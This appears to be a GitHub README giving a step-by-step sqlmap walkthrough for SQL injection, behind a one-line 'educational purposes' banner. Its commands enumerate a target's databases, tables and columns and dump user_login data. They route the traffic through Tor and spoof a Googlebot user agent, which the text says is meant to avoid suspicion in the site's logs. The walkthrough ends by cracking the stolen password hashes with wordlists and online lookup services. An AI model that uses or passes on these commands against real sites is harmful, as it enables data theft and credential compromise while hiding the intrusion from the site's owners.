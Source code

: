 # Injection-attacks

Injection attacks refer to a broad class of attack vectors that allow an attacker to supply untrusted input to a program, which gets processed by an interpreter as part of a command or query which alters the course of execution of that program

#####################################
## For Educational Purposes Only!!!##
#####################################
>>sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.
source link: https://github.com/sqlmapproject/sqlmap

Step 1: 
Listing DBMS databases SQLMap
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 --dbs
What this command does:
sqlmap = Name of sqlmap binary file to execute
-u = Target URL (e.g. “http://www.testwebsite.com/cgi-bin/item.cgi?item_id=15”)
–dbs = Tell SQLMap to Enumerate DBMS databases.

Step 2:
Listing DBMS Using Tor with SQLMap for anonymity.

Add these option to your sqlmap command to use tor along side SQLMap.

--tor --tor-type=SOCKS5
What this command does is tells SQLMap to use our Tor Tunnel instead of our original network address.

For example:

sqlmap -u http://target-website.com/listproducts.php?cat=2 --tor --tor-type=SOCKS5

Step 3: 
Listing DBMS Using Tor + Google User Agent with SQLMap for anonymity
sqlmap -u http://target-website.com/listproducts.php?cat=2 --tor --tor-type=SOCKS5 --user-agent="Googlebot (compatible; Googlebot/2.1; +http://www.google.com/bot.html)

We will be using Tor and setting a Google Crawler as a user agent for additional obscurity. Google’s crawlers will often visit websites, and are one of the least suspicious entities in the website’s error logs

Step 4:
Listing database tables in target MySQL Database.
sqlmap -u http://www.target-website.com/cgi-bin/item.cgi?item_id=15 -D databasetable --tables --tor --tor-type=SOCKS5 --user-agent="Googlebot (compatible; Googlebot/2.1; +http://www.google.com/bot.html)

Replace -D databasetable with the name of the database table you are targeting

Step 5:
Listing Database Columns
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info --column --tor --tor-type=SOCKS5 --user-agent="Googlebot (compatible; Googlebot/2.1; +http://www.google.com/bot.html)

Step 6:
Listing from Target Columns
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info -C user_login --dump --tor --tor-type=SOCKS5 --user-agent="Googlebot (compatible; Googlebot/2.1; +http://www.google.com/bot.html)

Step 7:
We have now successfully listed the contents of the database we can then extract information from these tables by using the following command again.

sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info -C user_login --dump --tor --tor-type=SOCKS5 --user-agent="Googlebot (compatible; Googlebot/2.1; +http://www.google.com/bot.html)

>SQLMap will now prompt for a word list. In this tutorial I will be using the default word list so I will choose option (1) from the menu
>SQLMap will then start cracking password hash’s from the SQL Database tables.
>Lets say we have tried lots of word lists and we still can’t decrypt the hash. We can use a tool called findmyhash.

Find My Hash uses the internet to connect to various Databases around the net. To find if the hash you are trying to crack has already been decrypted by someone else in the past.

To use Find My Hash type findmyhash from a terminal.

>>findmyhash

> (Free Password Hash Cracker: https://crackstation.net/)



